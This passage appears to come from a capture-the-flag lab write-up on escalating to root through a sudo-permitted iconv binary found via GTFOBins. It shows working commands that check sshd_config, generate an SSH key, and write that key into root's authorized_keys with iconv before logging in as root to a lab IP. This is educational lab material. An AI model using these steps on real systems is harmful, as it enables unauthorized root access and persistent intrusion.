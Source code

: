 Using [GTFOBins](https://gtfobins.github.io/) we can search for iconv to see if it can be used to escalate our privileges. It can, you can read or write files using iconv, since we are running as root we cat pretty much write to what we want. We could just read the root flag using iconv but we want to actually get root on the box to prove we can do it. There are couple ways of doing this but we will add a ssh key to the root users authorized_keys file. First let's see if root is allowed to ssh into the machine.
```shell
cat /etc/ssh/sshd_config | grep PermitRootLogin
```
According to the settings in sshd_config root is permitted to ssh.
```plaintext
PermitRootLogin yes
```
{: file="/etc/ssh/sshd_config" }
First we need to create a private and public key. On our kali machine so we run ssh-keygen.
```shell
ssh-keygen -f ~/root_id_rsa -t rsa -b 2048
```
I then copy the public key out of root\_id\_rsa.pub and use that to write the authorized_keys file in root's .ssh directory on the target machine.
```shell
echo '<pubic_key_copied_from_file>' | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys
```
We can now ssh into the target machine and get the root flag from /root/root.txt.
```shell
ssh -i ~/root_id_rsa root@10.10.21.67
```
